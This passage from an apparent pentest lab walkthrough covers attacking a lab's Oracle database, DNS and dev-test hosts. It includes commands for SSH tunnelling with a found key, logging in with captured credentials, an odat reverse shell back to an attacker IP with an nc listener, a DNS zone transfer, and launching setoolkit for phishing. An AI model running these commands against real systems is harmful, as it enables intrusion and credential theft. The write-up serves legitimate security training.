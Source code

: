 instance:XE user:TESTER1 password:Token_Java_dev_hydrogen1

We have found the token for java-dev and an username and a password. Of course we are talking about the db, because it's the remaining server to attack. Let's hack db.

## DB

First of all follow this guide to install the Oracle Instant Client to access the db: https://github.com/rapid7/metasploit-framework/wiki/How-to-get-Oracle-Support-working-withKali-Linux. After this we need to create an SSH tunnel to connect to DB, notice in the network diagram that there is an SSH icon. We need an SSH tunneling and we can perform it with davis from ssh. Type in terminal:

sudo ssh -nNT -i davis_key.txt -f -L 9000:192.168.0.5:1521 davis@192.168.101.7

We use the port 1521, which is the Oracle DB default port. Connect to DB with the command:

sqlplus 'TESTER1/Token_Java_dev_hydrogen1@(DESCRIPTION=(ADDRESS=(PROTOCOL=TCP)(Host=127.0.0.1) (Port=9000))(CONNECT_DATA=(SID=XE)))'

Now we are connected into the db. We need to create a reverse shell to get the token. Download and install odat: https://github.com/quentinhardy/odat. Listen for reverse shell: sudo nc -lvp 443

Then execute the following command:

sudo ./odat.py dbmsscheduler -s 127.0.0.1 -p 9000 -d XE -U TESTER1 -P Token_Java_dev_hydrogen1 --reverse-shell 10.10.72.110 443

To find the token use:

find -name "*token*"

You can notice this in the output:

/u01/app/oracle/product/11.2.0/xe/token.txt

Just type:

cat /u01/app/oracle/product/11.2.0/xe/token.txt

We got the db token.

## RECON

Recon is a DNS Recoinnaissance match. We need to interrogate the sas-bank DNS to get the token.

dig @192.168.101.6 sas-bank.lab

dig @192.168.101.7 sas-bank.lab -t axfr

We got the token. We need only one step to complete the lab.

## DEV-TEST

This is the last step. I think it's the most difficult part, because we need to perform a social engineering attack. We can use setoolkit to do this. Type:

sudo setoolkit

Do you remember the email we found?
